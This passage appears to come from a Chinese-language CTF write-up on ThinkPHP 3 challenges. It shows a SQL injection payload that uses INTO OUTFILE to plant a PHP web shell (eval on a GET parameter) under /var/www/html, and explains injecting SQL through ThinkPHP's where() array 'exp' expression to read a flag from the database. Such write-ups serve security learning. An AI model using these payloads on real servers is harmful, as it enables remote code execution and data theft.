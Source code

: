 [Mysql指定文件分隔符](https://www.runoob.com/mysql/mysql-database-import.html)

![32](https://the0n3.top/medias/show-think/32.png)

```sql
?id=1*/ into outfile '/var/www/html/1.php' LINES STARTING BY '<?php highlight_file(__FILE__);eval($_GET[1]);?>'%23
```

![33](https://the0n3.top/medias/show-think/33.png)

## web 577

> 描述：flag在数据库里

```php
$map=array(
'id'=>$_GET['id']
);
$user = M('Users')->where($map)->find();
```

谷歌一下[thinkphp3 where(](https://www.kancloud.cn/manual/thinkphp/1735)

![34](https://the0n3.top/medias/show-think/34.png)

在官方文档里可以学习到

```php
$map['字段1']  = array('表达式','查询条件1');
$map['字段2']  = array('表达式','查询条件2');
$Model->where($map)->select(); // 也支持
```

那么是不是等效：

```php
$map = arrray(
    "字段1" => array('表达式','查询条件1'),
    "字段2" => array('表达式','查询条件2')
)
```

到这里，你有思路了吗？`$_GET[id]`可以是一个数组类型，数组的第一个值作为表达式，第二个值作为查询条件！！再回顾一下这个图，思考这个`$map`是怎么和`where`一起使用的

![34](https://the0n3.top/medias/show-think/34.png)

我的看法是：sql语句中的where会根据指定的`表达式`类型，选择`字段`和`查询条件`的处理逻辑

```sql
where 字段?查询条件(表达式)  
```

选择`exp`类型，那么查询条件可以使用一条sql语句！

开搞，根据报错信息，合理调整，注意前面多补个`=`等号，把字段和查询语句拼接起来

![35](https://the0n3.top/medias/show-think/35.png)
